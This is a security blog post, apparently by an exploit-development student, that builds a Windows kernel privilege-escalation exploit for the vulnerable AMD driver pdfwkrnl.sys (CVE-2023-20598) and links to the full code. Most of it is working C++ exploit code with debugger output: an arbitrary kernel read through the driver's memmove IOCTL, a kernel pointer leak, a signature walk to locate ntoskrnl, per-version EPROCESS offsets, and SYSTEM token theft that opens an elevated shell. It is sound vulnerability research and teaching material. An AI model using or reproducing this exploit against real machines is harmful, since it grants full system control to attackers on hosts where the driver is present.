

## <u>Some Background</u>

Since recently attending an exploit development class hosted by OffSec I have been working through the provided study materials. However, one thing I had not had the opportunity to do was create my own 'from scratch' kernel exploit. 

As someone interested in sparing some free-time, I began looking through `loldrivers.io` for known vulnerable drivers to try and craft a PoC for. I eventually settled on one after I found a few articles referencing it; an AMD Radeon driver: [pdfwkrnl64.sys/pdfwkrnl.sys](https://www.loldrivers.io/drivers/fded7e63-0470-40fe-97ed-aa83fd027bad/) . With very little to go on and next to no readily available public Proof of Concepts, I decided to play my hand at making a viable exploit. 

It is worth noting this article will not discuss bypassing any exploit mitigations other than kASLR which naturally occurs with being able to read predictable kernel memory. This is due to the exploit avenue not relying on manipulating the driver to execute user-controlled code. This is my first post discussing kernel exploitation so I'll keep it simple until I understand the topics better, but I'm sure I'll discuss other controls such as DEP, ACG, CFG, and SMEP at a later date.

<br>

## <u>Disassemble Your Heart Out</u>

First things first, some essentials, finding usable IOCTL codes and the Driver Device name in order to start interacting with the loaded driver. I started out by loading the driver into IDA which easily provides one answer; `\\Device\\PdFwKrnl`.


The IOCTL handler portion of the code was a bit more difficult to trace in IDA, most likely due to lack of experience. It employed a switch case statement. To summarize this evaluated the destined code block by taking the provided IOCTL `add`-ing `0x7FFFE000` (Code Block 1). This is checked to ensure it is less than or equal to `0x2C`.


Then the resulting value is used to dereference an offset value at `jumptable+resulting_value`. This offset value is then added to the base address of the driver which was fetched by `lea r8, cs:140000000`, the resulting pointer is a code block within the driver which is then `jmp`-ed to (Code Block 2).

Ghidra's attempt at reconstructing the driver's code to C was much easier to read, providing the complete IOCTL code values. I got plenty of use out of Ghidra to assist in tracing the execution flow of separate code branches.


One IOCTL code quickly stood out to me during my tracing. It checks the size of the user struct passed is equal to `0x38` and then uses user supplied values to perform a `memmove` with no checks that the destination address range does not fall within the user mode address space.  


Excellent, this could act as a read/write primitive. To test this, I started constructing some code to try and read from the `KUSER_SHARED_DATA` structure which has a static offset of `0xfffff78000000000`.

I started by creating some essentials, creating the necessary imports and driver device string.

```c++
#include <iostream>
#include <Windows.h>

#define DRIVER                  "\\\\.\\PdFwKrnl"
#define RW_TARGET_IOCTL_CODE    0x8000202c

```

The driver checked the user supplied struct was `0x38` bytes in size. As such I created a simple struct to match this. It is worth noting the definition for memmove: `memmove(dest,src,size)`.

Checking the Ghidra code again this indicates that the destination will be `address4`, the source `address5`, and the size `address5`.

```c++
typedef struct {
    ULONGLONG address0;
    ULONGLONG address1;
    ULONGLONG address2;
    ULONGLONG address3;
    ULONGLONG address4;
    ULONGLONG address5;
    ULONGLONG address6;
} RW_BUFFER;
```

Next up was actually issuing the request to the driver and to handle any resulting data that might be returned. 

To do so I created a method to dynamically allocate memory corresponding to a user supplied `amount` of QWORDS. Then issue the target request, to copy from the `target_address` to the allocated `output_buff`. 

```c++
ULONGLONG* arbitrary_read(HANDLE device_handle, ULONGLONG target_address, int amount) {
    // Allocate memory and address to read to
    LPVOID output_buff = VirtualAlloc(
        NULL,
        sizeof(ULONGLONG) * amount,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_READWRITE
    );

    DWORD bytes_returned;
    RW_BUFFER input_buff = {
        0x4141414141414141,  // Junk padding values
        0x4242424242424242,  // Junk padding values
        0x4343434343434343,  // Junk padding values
        0x4444444444444444,  // Junk padding values
        (ULONGLONG)output_buff,
        target_address,
        sizeof(ULONGLONG) * amount
    };

    // Perform kernel memmove call
    DeviceIoControl(
        device_handle,
        RW_TARGET_IOCTL_CODE,
        &input_buff,
        sizeof(input_buff),
        NULL,
        NULL,
        &bytes_returned,
        NULL
    );
    // Return pointer list to extracted data
    ULONGLONG* out = (ULONGLONG*)(ULONGLONG)output_buff;
    return out;
}
```

Lastly to build out the `main` method to handle creating the driver handle and parsing the hopefully copied data. 

To start out I indicated that I wanted to read out 8 QWORDS of data from the `KUSER_SHARED_DATA` structure, indicated by `amount`.

```c++
int main()
{
    printf_s("\t[**] Opening handle to driver!\n");
    // Create handle to driver
    HANDLE DriverHandle = CreateFileA(
        DRIVER, 
        GENERIC_READ | GENERIC_WRITE,
        0,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL
    );
    // Ensure driver handle is valid
    if (DriverHandle == INVALID_HANDLE_VALUE)
    {
        printf("\t[!!] Failed to open driver handle!\n");
        exit(0);
    }

    int amount = 8;
    ULONGLONG* returned = arbitrary_read(DriverHandle, 0xfffff78000000000, amount);
    for (int i = 0; i < amount; i++) {
        printf_s("> %llx\n", *(returned + i));
    }
}
```

Before continuing I set a breakpoint on the target code block using the offset in Ghidra. I had already configured WinDBG to use Kernel Debugging against the target Windows VM.


```d
0: kd> bp pdfwkrnl+1374
0: kd> g
Breakpoint 0 hit
pdfwkrnl+0x1374:
fffff802 34ab1374 83fa38          cmp     edx,38h
```

Before continuing I inspected the contents of the target `KUSER_SHARED_DATA` structure to verify the contents, these values change frequently but so long as they appear similar this confirms my read primitive.

```d
0: kd> dq 0xfffff78000000000
fffff780'00000000  0fa00000'00000000 00000086'19064916
fffff780'00000010  d45cc65f'00000086 01dabc12'01dabc12
fffff780'00000020  0000003a'ac5ed800 86648664'0000003a
fffff780'00000030  0057005c'003a0043 006f0064'006e0069
```

Passing the breakpoint I inspected the output to see that the read primitive worked as intended.


<br>

## <u>Schrodingers Cat, Arbitrary</u>

An arbitrary read/write is only as useful as any other kernel layout information you have.

Typically the goal for SYSTEM token theft would be finding the base address of `ntoskrnl` in kernel memory. From here a process can `LoadLibrary()` the hosts's `ntoskrnl.exe` and calculate the offset of the export `PsInitialSystemProcess`. 

This stores a pointer to the SYSTEM process' `EPROCESS` structure in the kernel memory space.

```d
0: kd> dq nt!PsInitialSystemProcess L1
fffff802304fb420  ffffa0059547a080

0: kd> !process 0 0 system
PROCESS ffffa0059547a080
    ...
    Image: System
```

From there it is a case of walking the `ActiveProcessLinks` list to find an `EPROCESS` with the same `UniqueProcessId` as your own process. Then copying the `Token` out of the SYSTEM `EPROCESS` into your own.

```d
0: kd> dt _EPROCESS ffffa0059547a080
nt!_EPROCESS
   +0x000 Pcb              : _KPROCESS
   +0x438 ProcessLock      : _EX_PUSH_LOCK
   +0x440 UniqueProcessId  : 0x0000000000000004 Void
   +0x448 ActiveProcessLinks : _LIST_ENTRY [ 0xffffa005954ee4c8 - 0xfffff8023041e0c0 ]
   ...
   +0x4b8 Token            : _EX_FAST_REF
   ...
```

So, the grand question: `Where is ntoskrnl's base address?`. Without it, my read/write's usefulness may as well be in superposition. If I try to read from an uninitialized address space, I will cause a BSOD, so walking the kernel space is not an option.

If a process is running under typical circumstances, medium integrity, it can perform an `NtQuerySystemInformation()` call with a `SYSTEM_INFORMATION_CLASS` of `SystemExtendedHandleInformation`/`64` to leak the KTHREAD address which enables other exploit avenues. 

However, I wanted to get this exploit working from low integrity and as such the above techniques would not work.

<br>

## <u>Different Is What Different Do</u>

After reading through numerous articles ranging in topic from: incorporating more prayer in your life, to kernel pool grooming. I finally resigned myself to see if any of the other IOCTL codes returned addresses or values of interest.

After far too many BSODs I finally found something of interest, IOCTL code `0x80002010` would invoke the method, verbosely named, `MmAllocateContiguousMemorySpecifyCache()` which according to Microsoft:

```
Allocates a range of contiguous, nonpaged physical
memory and maps it to the system address space.
The routine maps this block to a contiguous block 
of virtual memory in the system address space and 
returns the virtual address of the base of this block.
```

This seems consistent with the method that follows which verifies that the returned value corresponds to a physical address with `MmGetPhysicalAddress`.



After which the Physical address is returned in the input buffer as the first value, while the virtual address block is returned as the second value. In theory so long as both routines succeed, I'd be leaking a memory address I could perform an arbitrary read from for any `ntoskrnl` pointers that could be useful.

Time to construct some code to try and accomplish just that. I started by modifying the arbitrary read function to read one QWORD at a time as this was more stable than more nested loops to parse the returned data.

```c++
// Dropped amount argument, set to always 1 - return type now ULONGLONG
ULONGLONG arbitrary_read(HANDLE device_handle, ULONGLONG address) {
    int amount = 1;
    ...
    // Always returns first value
    ULONGLONG* out = (ULONGLONG*)(ULONGLONG)output_buff;
    return *(out+0);
}
```

I then started working on the code to try and leak pointers, knowing that the `MmSystemRangeStart` for `ntoskrnl` is `0xffff8000'00000000` I decided I would iterate over the returned address block and look for values pointing to any usable structures or addresses inside ntoskrnl.

```c++
typedef struct {
    ULONGLONG address0;
    ULONGLONG address1;
    ULONGLONG address2;
    ULONGLONG address3;
    ULONGLONG address4;
    ULONGLONG address5;
} LEAK_BUFFER;

#define LEAK_TARGET_IOCTL_CODE  0x80002010

ULONGLONG leak(HANDLE device_handle) {
    DWORD bytes_returned;
    LEAK_BUFFER input_buff;

    for (int i = 0; i < 4096; i++) {
        // Necessary for randomized address for use by driver routine
        LPVOID output_buff = VirtualAlloc(
            NULL,
            0x38,
            MEM_COMMIT | MEM_RESERVE,
            PAGE_READWRITE
        );
        input_buff = {
            (ULONGLONG)0x100,  // Allocate block of 0x100 size
            (ULONGLONG)&output_buff, // Make the rest all the same - 'cause why not
            (ULONGLONG)&output_buff,
            (ULONGLONG)&output_buff,
            (ULONGLONG)&output_buff,
            (ULONGLONG)&output_buff
        };
        // MmAllocateContiguousMemorySpecifyCache
        if (DeviceIoControl(device_handle, LEAK_TARGET_IOCTL_CODE, &input_buff, sizeof(input_buff), &output_buff, sizeof(output_buff), &bytes_returned, NULL)) {
            // Ensure returned address is infact a kernel space address
            if (input_buff.address0 > 0xfff0000000000000) {
                // Iterate over and read qwords in allocated virtual space
                for (int b = 0x0; b < 0x80; b += 0x8) {
                    ULONGLONG check = arbitrary_read(device_handle, (ULONGLONG)(input_buff.address0+b));
                    // Check that the returned value is inside ntoskrnl (MmSystemRangeStart)
                    if (check > 0xfffff80000000000 && check < 0xfffff90000000000) {
                        printf_s("%llx\n", check);
                    }
                }
            }
        }
    }
    return 0x0;
}
```

While I sometimes got very promising values which were direct pointers to exported `ntoskrnl` functions, unfortunately these were few and far between. I needed a very consistent value to work from, and the most consistent was obviously something that necessitated some more work.


Inspecting the most common returned value in WinDBG indicated it was a pointer to the `PspSystemQuotaBlock` structure, something that Google has ~10 results for.

```d
0: kd> u fffff80230453880
nt!PspSystemQuotaBlock:
...
```

Sadly this structure was not exported by ntoskrnl which meant that using it for a direct offset calculation with the aforementioned `LoadLibrary()` and `GetProcAddress()` calls wouldn't work. So, I would need to find another use for it that would allow me to calculate the base address of `ntoskrnl`.

I opened `ntoskrnl` in IDA and began walking down the exported symbols list to look for a usable function with a signature that, most importantly, didn't change across windows versions. After some looking, I found one I was happy with, `HviGetHardwareFeatures`.

Based on some checks across multiple Windows 10 versions and an up-to-date Windows 11 version - the export wasn't missing and had a repeatable and predictable signature. However dynamically resolving and checking the QWORDS proceeding the function start address against a local copy would still be ideal.


<br>

## <u>Dirty Dancing Across The Kernel</u>

For starters I needed to check the offsets for the `PsInitialSystemProcess` and `HviGetHardwareFeatures`. To do so I added the needed `LoadLibraryA` and `GetProcAddress` calls in a method that supported passing an ASCII string.

```c++
DWORD GetOffset(LPSTR method) {
    HMODULE ntoskrnl = NULL;
    DWORD methodAddrOffset = 0;
    ULONG_PTR methodAddr = 0;

    ntoskrnl = LoadLibraryA("ntoskrnl.exe");
    if (ntoskrnl == NULL) {
        printf_s("\t[--] Couldn't load ntoskrnl.exe\n");
        return 0;
    }
    methodAddr = (ULONG_PTR)GetProcAddress(ntoskrnl, method);
    if (methodAddr) {
        methodAddrOffset = (DWORD)(methodAddr - (ULONG_PTR)(ntoskrnl));
        FreeLibrary(ntoskrnl);
        return methodAddrOffset;
    }

    printf_s("\t[--] Couldn't Get Offset of %s\n", method);
    return 0;
}

int main() {
    ...
    printf_s("\t[++] Driver Handle: 0x%x\n", DriverHandle);
```

Now, to move onto the code to parse out the `PspSystemQuotaBlock`. Rechecking the allocation and adding a print out for the offsets, I noticed it is 'almost' always located at offsets `0x20` and `0x50`.

```
C:\Users\n00b\Desktop>.\demo.exe
        [**] Opening handle to driver!
[20]> fffff8062da53880
[50]> fffff8062da53880
[20]> fffff8062da53880
[50]> fffff8062da53880
...
[50]> fffff8062da53880
```

I updated my code with this in mind. To avoid leaking the wrong value I decided to loop the leak and validate that both these offsets had the same value on separate attempts, which was enough to avoid BSOD in 99% of cases. 

```c++
int main() {
    ...
    ULONGLONG psystemquotablock_one;
    ULONGLONG psystemquotablock_two;

    for (int i = 0; i < 3; i++) {
        psystemquotablock_one = leak(DriverHandle, 0x20);
        psystemquotablock_two = leak(DriverHandle, 0x50);
        if (psystemquotablock_one == psystemquotablock_two) {
            printf_s("\t[++] PspSystemQuotaBlock: %llx\n", psystemquotablock_one);

            ULONGLONG hvigethwf = walk_nt(DriverHandle, psystemquotablock_one);
            printf_s("\t[++] HviGetHardwareFeatures: %llx\n", hvigethwf);

            ULONGLONG nt_base = hvigethwf - HIGHWF_offset;
            printf_s("\t[++] ntoskrnl Base Addr: % llx\n", nt_base);
            printf_s("\t[++] PsInitialSystemProcess: %llx\n", nt_base + PSISP_offset);

            ULONGLONG sys_eproc = arbitrary_read(DriverHandle, nt_base + PSISP_offset);
            printf_s("\t[++] SYSTEM _EPROC: %llx\n", sys_eproc);
```

Much of the above code assumes that the `walk_nt` function can resolve for the `HviGetHardwareFeatures` method. This is then used with the loaded offset to get the `ntoskrnl base address` Lets discuss how that works to find the correct function signature. I apologize in advance for the below - but I can't argue with results.

The function starts with the `PsSystemQuotaBlock` address and in a loop reads at an offset of `-0x10`. The value here is compared to a manually loaded local copy of `ntoskrnl`'s `HviGetHardwareFeatures` first QWORD. If it matches the rest of the proceeding values are looped and checked. If all the values appear to match - the function is assumed to be found. If no/insufficient matches are found, it will then increment the offset decrement by `0x10` and try again.

```c++
ULONGLONG walk_nt(HANDLE device_handle, ULONGLONG psysquota)
{
    ULONG_PTR PSISP_methodAddr;
    ULONG_PTR HIGHWF_methodAddr;
    // Load ntoskrnl for offset and function sig locating
    HMODULE ntoskrnl = LoadLibraryA("ntoskrnl.exe");
    if (ntoskrnl == NULL) {
        printf_s("\t[--] Couldn't load ntoskrnl.exe\n");
        return 0;
    }

    // Get and assign public offsets
    PSISP_methodAddr = (ULONG_PTR)GetProcAddress(ntoskrnl, "PsInitialSystemProcess");
    if (PSISP_methodAddr) {
        PSISP_offset = (DWORD)(PSISP_methodAddr - (ULONG_PTR)(ntoskrnl));
    }
    else {
        printf_s("\t[--] Couldn't Get Offset of PsInitialSystemProcess\n");
        return 0;
    }
    HIGHWF_methodAddr = (ULONG_PTR)GetProcAddress(ntoskrnl, "HviGetHardwareFeatures");
    if (HIGHWF_methodAddr) {
        HIGHWF_offset = (DWORD)(HIGHWF_methodAddr - (ULONG_PTR)(ntoskrnl));
    }
    else {
        printf_s("\t[--] Couldn't Get Offset of HviGetHardwareFeatures\n");
        return 0;
    }
    // Print offsets
    printf_s("\t[++] PsInitialSystemProcess Offset: %llx\n", PSISP_offset);
    printf_s("\t[++] HviGetHardwareFeatures Offset: %llx\n", HIGHWF_offset);

    ULONGLONG* hvi_sig = (ULONGLONG*)((ULONGLONG)HIGHWF_methodAddr);
    ULONGLONG initial = *(hvi_sig + 0);

    // To Find nt!HviGetHardwareFeatures
    DWORD one = 0x10;
    while (true) {
        int counter = 0;
        ULONGLONG first = arbitrary_read(device_handle, psysquota - one);
        if (first == initial) {
            counter++;
            for (int i = 1; i < 11; i++) {
                ULONGLONG read_check = arbitrary_read(device_handle, psysquota - (one - (8*i)));
                ULONGLONG load_check = *(hvi_sig + i);
                if (read_check == load_check) {
                    counter++;
                }
            }
            if (counter >= 11) {
                return (psysquota - one);
            }
        }
        one += 0x10;
    }
    return 0x0;
}
```

There are of course some limitations and caveats that come with this approach; if any values are incremented or changed at runtime compared signatures would not match. This would cause the code to read further back than the `ntoskrnl` base and into uninitialized memory - causing a BSOD. While my testing seemed to indicate this issue wasn't applicable, your mileage may vary.

Speaking of version independency, may as well commit to the intent. I created the below functions to be run at the start of main method execution to correct for the `EPROCESS` offsets differing between Windows versions. All of the below offsets can be found using the [Vergilius Project](https://www.vergiliusproject.com/kernels/x64/windows-10/1511/_EPROCESS) which was vital in ensuring that the offsets matched the detected host versioning.

```c++
DWORD TOKEN_OFFSET;
DWORD PID_OFFSET;
DWORD APL_OFFSET;

typedef LONG(NTAPI* RtlGetVersionPtr)(PRTL_OSVERSIONINFOW lpVersionInformation);

std::string GetWindowsVersion() {
    HMODULE hNtdll = GetModuleHandleW(L"ntdll.dll");
    if (hNtdll == nullptr) {
        return "Unknown";
    }

    RtlGetVersionPtr RtlGetVersion = (RtlGetVersionPtr)GetProcAddress(hNtdll, "RtlGetVersion");
    if (RtlGetVersion == nullptr) {
        return "Unknown";
    }

    RTL_OSVERSIONINFOW osvi = { 0 };
    osvi.dwOSVersionInfoSize = sizeof(osvi);
    if (RtlGetVersion(&osvi) != 0) {
        return "Unknown";
    }

    std::string version;
    printf_s("\t[++] Major: [%d] , Minor: [%d], BuildNo: [%d]\n", osvi.dwMajorVersion, osvi.dwMinorVersion, osvi.dwBuildNumber);
    if (osvi.dwMajorVersion == 10 && osvi.dwMinorVersion == 0) {
        if (osvi.dwBuildNumber >= 22000) {
            version = "Windows 11";
        }
        else if (osvi.dwBuildNumber >= 19041) {
            version = "Windows 10 (2004+)";
        }
        else if (osvi.dwBuildNumber >= 18362) {
            version = "Windows 10 (1903/1909)";
        }
        else if (osvi.dwBuildNumber >= 17763) {
            version = "Windows 10 (1809)";
        }
        else if (osvi.dwBuildNumber >= 17134) {
            version = "Windows 10 (1803)";
        }
        else if (osvi.dwBuildNumber >= 16299) {
            version = "Windows 10 (1709)";
        }
        else if (osvi.dwBuildNumber >= 15063) {
            version = "Windows 10 (1703)";
        }
        else if (osvi.dwBuildNumber >= 14393) {
            version = "Windows 10 (1607)";
        }
        else if (osvi.dwBuildNumber >= 10586) {
            version = "Windows 10 (1511)";
        }
        else {
            version = "Windows 10 (1507)";
        }
    }
    else if (osvi.dwMajorVersion == 6) {
        switch (osvi.dwMinorVersion) {
        case 3:
            version = "Windows 8.1";
            break;
        case 2:
            version = "Windows 8";
            break;
        case 1:
            version = "Windows 7";
            break;
        }
    }
    else {
        version = "Unknown";
    }

    return version;
}

int GetUniqueProcessIdOffset(const std::string& version) {
    static const std::map<std::string, int> uniqueProcessIdOffsets = {
        {"Windows 7", 0x180},
        {"Windows 8", 0x2E0},
        {"Windows 8.1", 0x2E0},
        {"Windows 10 (1507)", 0x2e8},
        {"Windows 10 (1511)", 0x2e8},
        {"Windows 10 (1607)", 0x2e8},
        {"Windows 10 (1703)", 0x2e0},
        {"Windows 10 (1709)", 0x2e0},
        {"Windows 10 (1803)", 0x2e0},
        {"Windows 10 (1809)", 0x2e0},
        {"Windows 10 (1903/1909)", 0x2e8},
        {"Windows 10 (2004+)", 0x440},
        {"Windows 11", 0x440},
    };
    auto it = uniqueProcessIdOffsets.find(version);
    if (it != uniqueProcessIdOffsets.end()) {
        return it->second;
    }
    else {
        return -1;
    }
}

int GetTokenOffset(const std::string& version) {
    static const std::map<std::string, int> tokenOffsets = {
        {"Windows 7", 0x208},
        {"Windows 8", 0x348},
        {"Windows 8.1", 0x348},
        {"Windows 10 (1507)", 0x358},
        {"Windows 10 (1511)", 0x358},
        {"Windows 10 (1607)", 0x358},
        {"Windows 10 (1703)", 0x358},
        {"Windows 10 (1709)", 0x358},
        {"Windows 10 (1803)", 0x358},
        {"Windows 10 (1809)", 0x358},
        {"Windows 10 (1903/1909)", 0x360},
        {"Windows 10 (2004+)", 0x4b8},
        {"Windows 11", 0x4b8},
    };
    auto it = tokenOffsets.find(version);
    if (it != tokenOffsets.end()) {
        return it->second;
    }
    else {
        return -1;
    }
}

void main()
{
    std::string windowsVersion = GetWindowsVersion();
    TOKEN_OFFSET = GetTokenOffset(windowsVersion);
    PID_OFFSET = GetUniqueProcessIdOffset(windowsVersion);
    APL_OFFSET = PID_OFFSET + 0x8;


    if (TOKEN_OFFSET == -1 || APL_OFFSET == -1 || PID_OFFSET == -1) {
        printf_s("\t[++] Unable To Find Offsets, exiting to prevent BSOD\n");
        abort();
    }
    ...
```

The above attempts to convert the current OS Major & Minor version, along with the Build Number, into a Windows Version string.
This string is then used to map to a corresponding offset value. Please note there is likely to be some errors in above as these offsets can be inconsistent.

<br>

## <u>Popping Some Kernels</u>

Now finally with all the pieces in place I could attempt to read the SYSTEM `EPROCESS` structure and perform the token theft. I quickly put together a small piece of code to walk the `ActiveProcessLinks` until my current process id was found, after which the `EPROCESS` pointer would be returned.

```c++
ULONGLONG GetCurrentEproc(HANDLE DriverHandle, ULONGLONG sys_eproc) {
    DWORD target = GetCurrentProcessId();
    ULONGLONG CurrentEprocess = sys_eproc;
    DWORD CurrentPid = 0x4;
    ULONG_PTR Flink = 0;

    // Iterate over APLs, decrement offset everytime and check pid for each EPROC
    while (CurrentPid != target) {
        Flink = arbitrary_read(DriverHandle, CurrentEprocess + APL_OFFSET);
        CurrentEprocess = Flink - APL_OFFSET;
        CurrentPid = arbitrary_read(DriverHandle, CurrentEprocess + PID_OFFSET);
    }
    return CurrentEprocess;
}
```

Finally, having finished out the last of my `main` method's functionality I can actually perform the SYSTEM token theft and elevate our privileges from that of a `low integrity` process. The below performs the typical calculations and invokes the above code to find our current process' `EPROCESS` by checking the `UniqueProcessId` value. If found it will copy the SYSTEM token value, preserving my token's last nibble; the Reference Counter / `RefCnt`.

```c++
            ULONGLONG sys_eproc = arbitrary_read(DriverHandle, nt_base + PSISP_offset);
            printf_s("\t[++] SYSTEM _EPROC: %llx\n", sys_eproc);

            // Ensure correct SYSTEM EPROC address range (can prevent a BSOD)
            if (sys_eproc < 0xFFF0000000000000) {
                printf_s("\t[!!] Incorrect PsInitialSystemProcess Pointer, exiting");
                abort();
            }
            // Walk APL in SYSTEM EPROC to find current EPROC
            ULONGLONG curr_eproc = GetCurrentEproc(DriverHandle, sys_eproc);
            printf_s("\t[++] CURRENT _EPROC: %llx\n", curr_eproc);

            // Everything but the last last nibble 
            ULONGLONG sys_token = arbitrary_read(DriverHandle, sys_eproc + TOKEN_OFFSET) & 0xFFFFFFFFFFFFFFF0;
            printf_s("\t[++] Stolen System Token: %llx\n", sys_token);

            // Get current process token
            ULONGLONG curr_token = arbitrary_read(DriverHandle, curr_eproc + TOKEN_OFFSET);
            printf_s("\t[++] Current Token: %llx\n", curr_token);

            // Get the last nibble for our current token, handle RefCnt
            DWORD handle_ref = curr_token & 0x000000000000000F;
            printf_s("\t[++] Old Handle Ref: %X\n", handle_ref);

            // Apply handle RefCnt to stolen token and replace our current with stolen
            ULONGLONG stolen = sys_token + handle_ref;
            arbitrary_write(DriverHandle, curr_eproc + TOKEN_OFFSET, stolen);

            CloseHandle(DriverHandle);

            printf_s("\t[~~] Enjoy the Shell!\n\n");

            // Spawn elevated SYSTEM shell
            system("cmd.exe");
            exit(0);
        }
    }
    printf_s("[!!] PspSystemQuotaBlock Not Found, exiting...");
}
```

Finally, I can get around to using the proof of concept to pop some SYSTEM shells. It looks like it works, though as mentioned no exploit is perfect so I'll apologize for any BSODs in advance.  

<figure>
     
</figure>

If you've read this far into my disorganized post, then thank you very much for sticking around through my messy rambles. You can of course find the full exploit code with any revisions here: [CVE-2023-20598](https://github.com/H4rk3nz0/CVE-2023-20598-PDFWKRNL)